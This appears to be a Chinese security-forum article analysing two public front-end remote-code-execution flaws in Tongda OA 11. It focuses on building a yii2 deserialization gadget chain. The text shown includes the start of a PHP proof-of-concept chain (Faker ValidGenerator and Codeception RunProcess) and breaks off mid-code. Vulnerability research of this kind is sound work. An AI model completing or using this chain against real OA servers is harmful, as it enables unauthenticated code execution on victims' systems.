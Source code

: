 

# 奇安信攻防社区 -【Web 实战】对通达 OA11 前台 RCE 的两个漏洞的分析与调优

### 【Web 实战】对通达 OA11 前台 RCE 的两个漏洞的分析与调优

对通达 OA11 前台 RCE 的两个漏洞的分析与调优，本文所涉及漏洞均为互联网上已公开漏洞，仅用于合法合规用途，严禁用于违法违规用途。

### 1\. 前台反序列化漏洞

#### 前言

由于已经有师傅对于如何触发反序列化的方法和代码进行了说明，这里我也就不拾人牙慧，主要谈一谈这里反序列化链的挖掘。具体的触发流程可以参考[https://mp.weixin.qq.com/s/nOQuqt\\\_mO0glY-KALc1Xiw](https://mp.weixin.qq.com/s/nOQuqt%5C_mO0glY-KALc1Xiw)  
目前网上也出现了一些分析反序列化链的分析，但是目前我看到的大部分分析走的反序列化链都是通达 OA 自己实现了一个 redis 的 Connection 类进行攻击的 poc。但是这个链，我个人认为是不够完善的。因为首先这个链设计到了 socket 的连接问题，可能会有一定的不稳定性和延迟。其次这条链的序列化数据比较长。那么能不能通过 yii2 框架的自带的链子进行更加稳定的反序列化链的触发呢。先说答案可以，并且 GitHub 上也已经有了链子的构造。下面进行整条链子的分析流程分享。

#### 确定 yii 版本

首先通过参考师傅的审计思路，我们可以发现这里的 yii2 是 2.0.13-dev。

![00.png](assets/1700187068-8338698930655b198af8d65066d6418f.png)  
看到是 yii2 的时候我就想着去偷个懒，毕竟这个框架之前爆出了很多反序列化的问题，到网上搜了一圈 poc，发现没一个能打通的。这里我发现了一个问题，网上的 poc 基本上如下：

```php
<?php
namespace Faker{

    class DefaultGenerator{
        protected $default ;
        function __construct($argv)
        {
            $this->default = $argv;
        }
    }

    class ValidGenerator{
        protected $generator;
        protected $validator;
        protected $maxRetries;
        function __construct($command,$argv)
        {
            $this->generator = new DefaultGenerator($argv);
            $this->validator = $command;
            $this->maxRetries = 99999999;
        }
    }
}

namespace Codeception\Extension{
    use Faker\ValidGenerator;
    class RunProcess{
```